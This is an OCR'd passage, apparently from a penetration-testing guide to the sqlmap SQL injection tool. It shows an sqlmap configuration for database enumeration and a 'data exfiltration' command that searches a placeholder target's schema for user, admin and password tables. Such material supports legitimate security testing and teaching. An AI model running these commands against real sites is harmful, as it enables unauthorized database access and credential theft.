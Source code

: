     [Enumeration]
    getBanner = True
    getCurrentUser = True
    getCurrentDb = True
    getDbs = True
    getTables = True
    getColumns = True
    getUsers = False
    getPasswordHashes = False

    [Brute force]
    commonTables = True
    commonColumns = True

    [File system]
    fileRead = 
    fileWrite = 
    fileDest = 

    [Injection]
    tamper = 
    prefix = 
    suffix = 
    skip = 
    testParameter = 

    [Advanced]
    threads = 1
    verbose = 1
    batch = True
    flushSession = False
    freshQueries = False
    hexConvert = False
    outputDir = /tmp/sqlmap_output

    # Use configuration file
    python sqlmap.py --config=sqlmap.conf
:::
:::
:::

::: {#post-exploitation .section .section}
## Post-Exploitation

### Data Exfiltration Strategies

::: {.attack-vector .risk-high}
#### Sensitive Data Extraction

::: code-block
    # Target sensitive tables
    python sqlmap.py -u "http://target.com/page?id=1" -D "webapp" \
      --sql-query "SELECT table_name FROM information_schema.tables WHERE table_name LIKE '%user%' OR table_name LIKE '%admin%' OR table_name LIKE '%password%'"
